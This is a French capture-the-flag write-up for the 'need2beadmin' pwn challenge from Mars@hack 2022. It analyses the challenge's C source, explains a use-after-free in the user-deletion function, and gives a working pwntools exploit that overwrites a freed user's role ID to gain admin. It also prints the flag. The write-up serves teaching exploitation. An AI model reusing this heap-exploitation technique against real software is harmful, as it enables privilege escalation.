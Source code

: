 # Writeup for the challenge  **_`need2beadmin`_**  from Mars@hack 2022

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`need2beadmin`** |
| Category: | **`pwn`** |


- ## Découverte du challenge

En lançant le programme, on se retrouve avec une interface contenant:

- une liste de commandes

- une ligne qui contient notre nom d'utilisateur et notre rôle

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/1.png)

En rentrant un chiffre correspondant à la commande, une fonction sera lancée.


- ## Analyse du code source

### Affichage du flag
Le flag s'affiche lorsque l'on passe par la fonction `switchAdmin()`, cette fonction est associé à la commande 
**`[7] Passer en mode Rouge`**.

2 vérifications sont faites pour obtenir le flag:
```c
if (!isAdmin(currentUser) | strcmp(currentUser->name, "Reine rouge") != 0) {
    printf("\nSeule la 'Reine rouge' peut accéder à cette interface.\n\n");
    
    //fflush(stdout);
    return;
  }
``` 
L'utilisateur actuel doit être `admin` et le nom de l'utilisateur doit être `Reine Rouge`, il faut donc être l'utilisateur numéro 1 pour avoir accès à cette interface.
```c
users[0] = newUser("Reine rouge", 1, 1); //struct User *newUser(char *name, unsigned int roleId, unsigned short privilege)
```

On se rend vite compte qu'on ne pourra pas récupérer cet utilisateur avec une utilisation normal du programme pour 2 raisons:
1. Il n'est pas possible de choisir le rôle `admin` en créant un utilisateur à moins d'être déjà `admin`
```c 
if (isAdmin(currentUser)) {
    user->role_id = roleId;
  } else if (strcmp(nameRoleNext, "Admin") != 0) {
    user->role_id = roleId;
  } else {
    printf("Tu dois être admin pour définir ce rôle.\n");
    //fflush(stdout);
    exit(-9);
}
```
2. Il n'est pas possible de créer un utilisateur avec le même nom qu'un utilisateur existant, impossible alors d'obtenir un 2ème utilisateur **`Reine rouge`**
```c
if (userExist(name)) {
    printf("L'utilisateur existe déjà.\n");
    //fflush(stdout);
    exit(-7);
}
```

-----

### Changement de rôle

Une autre fonction semble cependant pouvoir être utilisée: `switchUser()`
```c
void switchUser(char *userName) {
  if (!isAdmin(currentUser)) {
    printf("Seul les utilisateurs ayant le rôle 'Admin' peuvent accéder à cette fonctionnalité.\n");
    //fflush(stdout);
    return;
  }

  if (!userExist(userName)) {
    printf("L'utilisateur n'existe pas.\n");
    //fflush(stdout);
    return;
  }

  currentUser=getUser(userName);
}
```
---

Elle permet de choisir n'importe quel utilisateur à condition d'avoir le rôle `admin`, gardons cela en tête et continuons notre analyse.

### Detection de la vulnérabilité

2 structures sont définies:  `Role` et `User` 
```c
struct Role {
  unsigned int id;
  char name[8];
  char alias[8];
};

struct User {
  char name[16];
  unsigned int role_id;
};
```
Leur taille en mémoire est identique: 16 `char` et un `unsigned int` soit 16 * 1 + 1 * 4 = 20 octet par structure

Ce genre de structures, ainsi qu'un programme offrant une liste de choix, se retrouvent souvent utilisés dans les challenges consistant à manipuler la heap avec un **`use-after-free`** ou un **`double free`**.

Pour confirmer cette théorie, on regarde les fonctions associées aux commandes "Supprimer un utilisateur" et "Supprimer un role" pour voir comment `free()` est utilisé.

```c 
void delUser() {
  char name[memberSize(struct User, name)];

  memcpy(name, currentUser->name, sizeof(name));

  if (numberOfUsers <= MIN_USERS) {
    printf("Besoin d'un minimum de %i utilisateurs.\n", MIN_USERS);
    //fflush(stdout);
    exit(-5);
  }

  free(currentUser);
  users[numberOfUsers-1] = NULL;
  printf("Utilisateur '%s' supprimé\n\n", name);
  //fflush(stdout);

  numberOfUsers--;
}
```

Bingo, dans les fonction `delUser()` on peut voir que le pointeur `currentUser` n'est pas remit à **`NULL`** après le `free()`;

Le **`use-after-free`** se confirme: Si l'on arrive à avoir à attribuer a même adresse mémoire à l'utilisateur actuel puis à un rôle on pourra réécrire la variable `role_id` de la structure `User` et lui donner la valeur 1 afin d'obtenir un profil administrateur.

- ## Analyse du code source

Notre exploit sera le suivant:

```python
from pwn import *

#n'ayant
challenge = remote("nc game1.marshack.fr", 31003)

# Création d'un utilisateur
challenge.sendline(b"3")

# Nom de l'utilisateur
challenge.sendline(b"test_user")
# Rôle de l'utilisateur
challenge.sendline(b"2")

# Destruction de l'utilisateur
challenge.sendline(b"5")

# Création du rôle
challenge.sendline(b"4")

# Remplissage des 8 1ers bytes
challenge.sendline(b"A"*8)
# Overwrite de l'id de l'utilisateur
challenge.sendline(b"A"*4 + b"\x01\x00\x00\x00")

challenge.interactive()
```

Pour représenter ce qu'il se passe (en prenant une adresse memoire théorique de `0x00000000`):

1. Création de l'utilisateur à l'adresse `0x00000000`
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''test_user'']
A --> D[0x00000010: id] --> B[2]
```
2. `free(currentUser)`: l'adresse `0x00000000` redevient disponible pour un malloc
3. Création du rôle sur l'adresse `0x00000000`: Les valeurs de currentUser sont overwrite
 ```mermaid
graph LR
F((rôle)) --> A[0x00000000]
A --> C[0x00000000: id] --> E[4]
A --> Z[0x00000004: name] --> G[''AAAAAAAA'']
A --> D[0x0000000C: alias] --> B[''AAAA\x01\x00\x00\x00'']
```
4. Valeurs de `currentUser` après la création du rôle
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''\x04\x00\x00\x00AAAAAAAAAAAA'']
A --> D[0x00000010: id] --> B[1]
```
---

On se retrouve alors avec un utilisateur sans nom mais possédant le rôle `admin`

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/exploit.png)

Il suffit ensuite de changer d'utilisateur pour récupérer le profil **`Reine rouge`**

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/flagged.png)

Flag : **`fl@g{NeMeDebranchezPas!OuVousMourrerezTous}`**

